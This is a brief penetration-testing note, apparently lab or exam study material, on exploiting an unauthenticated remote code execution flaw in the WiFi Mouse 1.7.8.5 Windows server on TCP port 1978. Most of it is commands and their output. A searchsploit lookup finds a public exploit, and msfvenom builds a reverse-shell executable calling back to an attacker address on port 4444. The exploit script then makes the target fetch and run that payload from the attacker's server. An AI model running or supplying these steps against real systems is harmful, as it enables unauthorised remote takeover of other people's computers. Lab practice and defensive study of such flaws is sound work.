 # WiFi Mouse (1978)

**WiFi Mouse** `1.7.8.5`, a Windows server component of a mobile app that lets users control their PC via smartphone (mouse, keyboard, etc.), is vulnerable to **unauthenticated remote code execution** over TCP port `1978` due to insecure command parsing — [CVE-2021-27561](https://nvd.nist.gov/vuln/detail/CVE-2021-27561).

{% code overflow="wrap" %}
```bash
# Search for PoC
$ searchsploit WiFi Mouse
...
WiFi Mouse 1.7.8.5 - Remote Code Execution(v2) | windows/remote/50972.py

# Generate the payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=4444 -f exe -o 1978.exe

# Use the exploit
$ python3 50972.py hermes 192.168.45.154:8888 1978.exe
[+] 3..2..1..

[+] *Super fast hacker typing*
[+] Retrieving payload
[+] Done! Check Your Listener?
```
{% endcode %}
